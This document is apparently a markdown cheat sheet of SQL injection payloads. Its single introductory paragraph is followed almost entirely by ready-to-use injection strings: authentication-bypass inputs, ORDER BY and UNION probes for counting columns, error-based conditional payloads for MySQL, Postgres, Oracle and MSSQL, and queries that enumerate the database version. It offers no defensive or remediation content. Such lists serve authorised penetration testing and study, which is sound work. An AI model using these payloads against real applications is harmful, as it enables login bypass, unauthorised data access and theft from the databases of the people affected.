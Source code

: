 # SQL Injection

SQL injection (SQLi) is a type of security flaw in applications that enables attackers to manipulate the database of an application. This vulnerability can lead to unauthorized data access, deletion, or alteration, and can cause the application to behave in unintended ways. It works by deceiving the application into executing malicious SQL statements that the attacker has embedded into input fields that are poorly secured or not sanitized.

**Authentication Based Payloads**

```
or true--
```
```
") or true--
```
```
') or true--
```
```
admin') or ('1'='1'--
```
```
admin') or ('1'='1'#
```
```
admin') or ('1'='1'/
```

**Order by and UNION Based Payloads**

```
1' ORDER BY 1--+
```
```
1' ORDER BY 2--+
```
```
1' ORDER BY 3--+
```
```
1' ORDER BY 1,2--+
```
```
1' ORDER BY 1,2,3--+
```
```
1' GROUP BY 1,2,--+
```
```
1' GROUP BY 1,2,3--+
```
```
' GROUP BY columnnames having 1=1 --
```
```
-1' UNION SELECT 1,2,3--+
```
```
' UNION SELECT sum(columnname ) from tablename --
```
```
-1 UNION SELECT 1 INTO @,@
```
```
-1 UNION SELECT 1 INTO @,@,@
```
```
1 AND (SELECT * FROM Users) = 1	
```
```
' AND MID(VERSION(),1,1) = '5';
```
```
' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
```

**Generic Error Based Payloads**

MySQL
```
' UNION SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') -- -
```
Postgres
```
' UNION SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END -- -
```
Oracle
```
' UNION SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual -- -
```
MSSQL
```
' UNION SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END -- -
```

**Database enumeration**

MySQL/MSSQL
```
' UNION SELECT @@version -- -
```
Oracle
```
' UNION SELECT banner from v$version -- -
```
Oracle(2nd method)
```
' UNION SELECT version from v$instance -- -
```
Postgres
```
' UNION SELECT version() -- -
```

**Number of column**

MySQL/MSSQL/PGSQL
```
'UNION SELECT NULL,NULL,NULL -- -
```
ORACLE
```
'UNION SELECT NULL,NULL,NULL FROM DUAL -- -
```
MYSQL/MSSQL/PGSQL/ORACLE
```
' UNION ORDER BY 1 -- -
```
